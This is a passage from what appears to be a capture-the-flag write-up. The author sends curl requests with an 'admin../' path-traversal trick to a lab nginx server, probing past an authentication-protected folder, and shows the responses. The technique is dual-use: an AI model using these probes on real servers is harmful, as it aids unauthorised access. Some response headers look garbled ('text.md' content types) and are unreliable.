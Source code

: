 

    oxdf@parrot$ curl -I http://10.10.10.249/admin../index.php
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:19:51 GMT
    Content-Type: text.md; charset=iso-8859-1
    Connection: keep-alive
    Vary: Accept-Encoding

    oxdf@parrot$ curl -I http://10.10.10.249/admin../index.md
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:19:58 GMT
    Content-Type: text.md; charset=iso-8859-1
    Connection: keep-alive
    Vary: Accept-Encoding



Tricks to get back to `/admin` don't help anything:



    oxdf@parrot$ curl -I http://10.10.10.249/admin../admin
    HTTP/1.1 401 Unauthorized
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:20:17 GMT
    Content-Type: text.md; charset=iso-8859-1
    Connection: keep-alive
    WWW-Authenticate: Basic realm="Authentication Required"



I took a guess that perhaps I could access the pokatdex part of the
site, if it were being served out of a folder named `pokatdex` in the
same folder as the admin page, and it worked:



    oxdf@parrot$ curl -I http://10.10.10.249/admin../pokatdex/
    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:20:27 GMT
    Content-Type: text.md; charset=UTF-8
    Connection: keep-alive
    Vary: Accept-Encoding

    oxdf@parrot$ curl -I http://10.10.10.249/admin../pokatdex/contact.php
    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:20:32 GMT
    Content-Type: text.md; charset=UTF-8
    Connection: keep-alive
    Vary: Accept-Encoding



Still, while that verifies I'm thinking about the configuration right,
there's not much I can do with that.
